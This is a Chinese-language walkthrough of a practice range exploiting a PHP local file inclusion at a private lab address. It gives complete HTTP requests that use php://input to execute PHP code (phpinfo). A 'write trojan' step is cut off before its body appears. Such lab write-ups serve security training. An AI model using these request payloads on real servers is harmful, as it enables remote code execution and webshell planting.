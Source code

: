 `php://input`会将post请求的数据当作php代码执行

![image-20241031140812924](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031140812924.png)

```bash
http://192.168.70.10:8101/EX-1/?file=http://www.baidu.com
```

![image-20241031163049093](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031163049093.png)

打开EX-1，发现里面有个链接，点击后能跳转到百度

![image-20241031161457174](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031161457174.png)

使用`php://filter`试一下，结果显示我是黑客，也就是在php代码中已经对`filter`进行了防范

```bash
php://filter/convert.base64-encode/resource=index.php
```

![image-20241031161605419](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031161605419.png)

##### phpinfo

使用`php://input`将请求都变为`php`执行代码

![image-20241031162638058](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031162638058.png)

就可以看见`phpinfo`信息了

```bash
GET /EX-1/?file=php://input HTTP/1.1
Host: 192.168.70.10:8101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.10:8101/EX-1/?file=
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
Content-Length: 23

<?php echo phpinfo();?>
```



##### 写入木马

![image-20241031162812147](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031162812147.png)

```bash
GET /EX-1/?file=php://input HTTP/1.1
Host: 192.168.70.10:8101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.10:8101/EX-1/?file=
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
Content-Length: 71

```